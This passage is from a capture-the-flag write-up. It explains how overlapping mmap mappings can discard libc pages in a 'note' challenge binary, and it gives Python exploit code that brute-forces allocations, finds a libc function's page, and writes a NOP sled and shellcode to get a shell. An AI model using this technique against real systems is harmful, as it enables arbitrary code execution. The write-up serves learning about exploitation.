 `If the memory region specified by addr and length overlaps pages of any existing mapping(s), then the overlapped part of the existing mapping(s) will be discarded.  If the specified address cannot be used, mmap() will fail.`  This sounds very vulnerable. That means, that contrary to the code of `mmap_s` that seems like every allocated chunk will simply be left as is, it actually discards the overlapped chunk (which will be the entire chunk)! This is an extremely strong primitive; let's plan our attack.

## Using Our Primitive

The first thing that popped to my mind is the fact that an address space that is in the higher 2GBs (which is where mmap_s forces the random addresses to be) is libc. 

What if we keep mapping a lot of addresses, until we reach a page in which we have a function we know is called (such as printf, puts, close, open)? It will cause the libc mapping to be removed, and the new page will be `rwx`, meaning we can run shellcode! 

Let's take it a step further; if we have a libc page, in which we know a function we can trigger is, we can simply overwrite that specific function with a shellcode, and then when we trigger it we'll execute our own shellcode.

Note that this is a brute-force of addresses; so depending on the code and the machine it takes a pretty long time (in remote).

## Exploitation

First things first, we need to map the interesting libc functions that we have in our binary:
```py
for sym in note.symbols:
    # Remove symbols we cannot get to.
    if sym in libc.symbols and sym not in ['setvbuf', 'sleep', '__libc_start_main']:  
        addr = libc_base + libc.symbols[sym]
        print(f"{sym}:{hex(addr)}")
        libc_addrs[sym] = addr
```

Afterwards, let's align it to a page address so we know what mappings interest us:
```py
page_addrs = {str(hex((addr & ~0xfff))[2:]): (sym, addr) for sym, addr in libc_addrs.items()}
```

Now, we want to allocate 256 addresses at a time, parse them, and then delete them:
```py
io.send(b'1\n' * 257)
output = io.recvuntil('memory sults', timeout=15) # Sometimes crashed randomly in remote...
matches = re.findall(r"note created\. no (\d+)\s*\n \[([0-9a-f]+)\]", output.decode())

# Parse addresses
for no, addr in matches:
    # Found a function address
    if addr in page_addrs:
        success(f"Found function page: {addr} {no} {page_addrs[addr]}")

        # Send write to the note.
        io.sendline(b'2')
        io.sendline(no)

        # Find the offset.
        func_addr = page_addrs[addr][1]
        offset = func_addr & 0xfff
        success(f"NOP sled size is {offset}")

        # Send the shellcode
        io.sendline(b'\x90' * offset + shellcode)
        io.interactive()

# Delete the other 256  
```